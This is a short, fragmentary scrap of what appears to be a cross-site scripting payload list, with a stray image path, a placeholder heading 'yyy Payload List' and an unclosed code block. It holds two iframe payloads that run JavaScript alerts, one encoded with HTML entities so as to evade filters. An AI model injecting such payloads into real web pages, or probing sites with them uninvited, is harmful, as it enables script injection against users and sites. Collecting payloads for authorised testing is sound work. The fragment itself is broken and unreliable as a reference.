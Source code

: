 #### yyy Payload List :

```







<IFRAME SRC="javascript:alert('document.domain');"></IFRAME>
<iframe src=javascript&colon;alert&lpar;document&period;domain&rpar;>


















